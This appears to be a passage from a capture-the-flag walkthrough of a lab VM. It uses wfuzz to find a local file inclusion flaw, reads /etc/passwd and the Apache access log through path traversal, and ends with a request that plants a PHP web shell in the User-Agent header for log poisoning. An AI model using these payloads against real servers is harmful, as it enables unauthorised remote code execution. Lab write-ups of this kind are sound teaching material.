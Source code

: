 {% highlight sh %}
  ┌──(alienum㉿kali)-[~]
  └─$ wfuzz -w /usr/share/wordlists/SecLists/Fuzzing/LFI/LFI-LFISuite-pathtotest-huge.txt  --hh 0  'http://10.0.2.190/company/started.php?file=FUZZ'

  =====================================================================
  ID           Response   Lines    Word       Chars       Payload
  =====================================================================

  000000015:   200        29 L     43 W       1582 Ch     "../../../../../../../../../../../../../../etc/passwd"
  ^C
{% endhighlight %}

- So the valid path for LFI is  `../../../../../../../../../../../../../../`

- Note

If you don't find the log file at once with the below list, maybe you broke something in the Virtual Machine.
So you need to `reimport` the vm.

## Finding the wordlist

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop/lfi-list]
  └─$ wget https://raw.githubusercontent.com/tjomk/wfuzz/master/wordlist/fuzzdb/attack-payloads/lfi/common-unix-httpd-log-locations.txt
{% endhighlight %}

##  Wfuzz - Log Files

{% highlight sh %}
  ┌──(alienum㉿kali)-[~/Desktop/lfi-list]
  └─$ wfuzz -w common-unix-httpd-log-locations.txt --hh 0  'http://10.0.2.190/company/started.php?file=../../../../../../../../../../../../../../../..FUZZ'

  =====================================================================
  ID           Response   Lines    Word       Chars       Payload
  =====================================================================

  000000019:   200        137 L    1994 W     26383 Ch    "/var/log/apache2/access.log"
{% endhighlight %}

## Log poisoning to RCE through User Agent

- Burpsuite
- Copy the following request to the Burpsuite repeater

```
GET /company/started.php HTTP/1.1
Host: 10.0.2.190
User-Agent: <?php system($_GET['cmd']); ?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: clos
```
